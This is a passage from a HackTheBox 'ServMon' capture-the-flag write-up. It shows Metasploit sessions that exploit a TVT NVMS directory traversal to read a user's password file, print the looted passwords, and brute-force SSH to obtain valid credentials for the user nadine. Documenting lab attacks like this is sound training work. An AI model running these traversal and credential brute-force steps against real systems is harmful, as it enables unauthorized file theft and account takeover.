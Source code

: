 ```

msf5 auxiliary(scanner/http/tvt_nvms_traversal) > set RHOSTS 10.10.10.184
RHOSTS => 10.10.10.184
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > set FILEPATH /Users/Nathan/Desktop/Passwords.txt
FILEPATH => /Users/Nathan/Desktop/Passwords.txt
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > run

[+] 10.10.10.184:80 - Downloaded 156 bytes
[+] File saved in: /home/noraj/.msf4/loot/20200611175532_default_10.10.10.184_nvms.traversal_675310.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/tvt_nvms_traversal)

$ cat /home/noraj/.msf4/loot/20200611175532_default_10.10.10.184_nvms.traversal_675310.txt
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

### Network exploitation: SSH

With the looted passwords let's bruteforce SSH for the users nadine and nathan
by using a [metasploit][msf] module.

```
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 10.10.10.184
RHOSTS => 10.10.10.184
msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /home/noraj/.msf4/loot/20200611175532_default_10.10.10.184_nvms.traversal_675310.txt
PASS_FILE => /home/noraj/.msf4/loot/20200611175532_default_10.10.10.184_nvms.traversal_675310.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /home/noraj/CTF/HackTheBox/machines/ServMon/usernames.txt
USER_FILE => /home/noraj/CTF/HackTheBox/machines/ServMon/usernames.txt
msf5 auxiliary(scanner/ssh/ssh_login) > run

[+] 10.10.10.184:22 - Success: 'nadine:L1k3B1gBut7s@W0rk' ''id' is not recognized as an internal or external command,  operable program or batch file.  '
[*] Command shell session 1 opened (10.10.15.26:45331 -> 10.10.10.184:22) at 2020-06-11 18:10:19 +0200
[-] 10.10.10.184:22 - While a session may have opened, it may be bugged.  If you experience issues with it, re-run this module with 'set gatherproof off'.  Also consider submitting an issue at github.com/rapid7/metasploit-framework with device details so it can be handled in the future.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

So a valid set of credentials was `nadine:L1k3B1gBut7s@W0rk`.
